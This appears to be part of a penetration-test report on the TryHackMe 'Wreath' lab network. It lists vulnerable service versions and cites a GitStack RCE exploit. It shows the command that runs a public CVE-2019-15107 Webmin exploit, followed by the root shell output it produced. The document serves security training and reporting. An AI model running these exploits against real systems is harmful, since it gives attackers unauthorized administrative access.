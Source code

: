 Vulnerabilities:
- OpenSSH 8.0: exploitation available in the service SCP
- OApache httpd 2.4.37: HTTP request smuggling attack when certain conditionsare met
- MiniServ 1.890: Remote command execution in the parameter password_change.cgi
- OpenSSL/1.1.1c: Potential Denial of Service by the usage of some functions

By further exploiting the internal network, it was discovered that the *Gitstack* contains a known vulnerability described in the [Exploit Database GitStack 2.3.10 - Remote Code Execution](https://www.exploit-db.com/exploits/43777)

**Recommendation**

It is highly recommended to patch existing sercices to its current. This prevents attackers from exploiting known vulnerabilities.

## 4- Remote command execution gives admininistrative privileges to the webserver
**Severity**

High

**Description**

Using the existing vulnerability of the service **MiniServ 1.890**, it is possible to perform remote code execution (RCE) and get directly administrative access to the webserver. 

To achiev this result, the the python script of the [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) was executed as following:

```
CVE-2019-15107.py thomaswreath.thm -p 1000
```

The result of this command gave us access to the webserver and we could execute normal linux commands, like *hostname*, *ip a*. *whoami*:

```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5a:e7:a1:7c:ad brd ff:ff:ff:ff:ff:ff
    inet 10.200.105.200/24 brd 10.200.105.255 scope global dynamic noprefixroute eth0
       valid_lft 2261sec preferred_lft 2261sec
    inet6 fe80::5a:e7ff:fea1:7cad/64 scope link 
       valid_lft forever preferred_lft forever
# whoami
root
# hostname
prod-serv
# https://
```
